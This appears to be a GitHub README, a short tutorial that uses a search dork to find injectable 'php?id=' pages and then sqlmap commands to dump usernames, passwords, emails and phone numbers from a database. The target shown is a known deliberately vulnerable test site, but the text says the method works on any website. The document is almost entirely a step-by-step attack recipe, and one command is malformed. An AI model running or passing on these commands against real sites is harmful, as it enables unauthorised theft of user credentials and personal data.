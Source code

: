 # Website_info_Extractor
This is tried on tester website but you can do on any of the website to extract the data from the database.

open browser

searching for vulnweb.com open it now copy the link
paste the link in new tab with some changes sidte:link/ php?id= ex.(site:http://testphp.vulnweb.com/ php?id=) now you get some link copy first link.

now open your kali terminal give root permission to terminal

now follow the commands

sudo su

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 --dbs

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D --tables    #(show tables)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C uname --dump  #(show users)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C pass --dump   #(show password)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C email --dump    #(show email)

sqlmap -u http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 -D acuart -T users -C phone --dump    #(show phone no.)

for practical video go to my youtube channel @Hackudozone
or click on link https://youtu.be/TzmHcVbATqg
